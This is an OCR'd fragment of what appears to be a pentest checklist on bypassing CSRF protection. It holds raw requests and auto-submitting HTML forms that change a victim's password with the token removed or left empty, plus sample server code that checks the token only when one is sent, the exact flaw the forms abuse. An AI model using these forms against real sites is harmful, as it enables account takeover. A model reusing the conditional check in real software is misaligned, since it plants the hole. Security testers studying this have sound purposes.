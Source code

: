     ```html
    # remove the token
    POST /password_change
    Host: email.example.com
    Cookie: session_cookie=YOUR_SESSION_COOKIE
    (POST request body)
    new_password=abc123
    -------------------------------------------------------------
    <html>
     <form method="POST" action="<https://email.example.com/password_change>" id="csrf-form">
     <input type="text" name="new_password" value="abc123">
     <input type='submit' value="Submit">
     </form>
     <script>document.getElementById("csrf-form").submit();</script>
    </html>
    ----------------------------------------------------------------
    # Empty Parameter
    POST /password_change
    Host: email.example.com
    Cookie: session_cookie=YOUR_SESSION_COOKIE
    (POST request body)
    new_password=abc123&csrf_token=
    ---------------------------------------------------------------------
    <html>
     <form method="POST" action="<https://email.example.com/password_change>" id"csrf-form">
     <input type="text" name="new_password" value="abc123">
     <input type="text" name="csrf_token" value="">
     <input type='submit' value="Submit">
    </form>
     <script>document.getElementById("csrf-form").submit();</script>
    </html>
    --------------------------
    # Expected Code
    def validate_token():
     if (request.csrf_token == session.csrf_token):
    		 pass
     else:
    	 throw_error("CSRF token incorrect. Request rejected.")
    [...]
    def process_state_changing_action():
    	 if request.csrf_token:
    		 validate_token()
    		 execute_action()
    ```
*   [ ] **Weak Token Integriti ( Reuse token )**
